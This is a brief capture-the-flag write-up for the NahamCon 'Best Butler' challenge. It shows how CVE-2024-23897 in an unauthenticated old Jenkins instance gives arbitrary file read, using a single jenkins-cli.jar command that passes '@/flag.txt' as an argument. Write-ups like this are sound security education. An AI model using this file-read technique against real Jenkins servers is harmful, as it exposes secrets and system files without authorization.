

# The Best Butler
Author: @Kkevsterrr

Truly, he's the best butler - he might even be able to serve up a /flag.txt!

NOTE, this challenge might take a bit more time to start. The flag is located at the root of the filesystem (/flag.txt)

We are provided with a unauthenticated jenkins dashboard:

We can't really do much since it's unauthenticated.
The jenkins version is very old: **Jenkins 2.332.2**
After some research found out a CVE: CVE-2024-23897 which allows for Arbitrary File read. 
For this we need to first download the `jenkins-cli.jar`.

Ran the following command: `java -jar jenkins-cli.jar -s http://challenge.nahamcon.com:port/ -webSocket help @/flag.txt`

And sure enough, got the flag.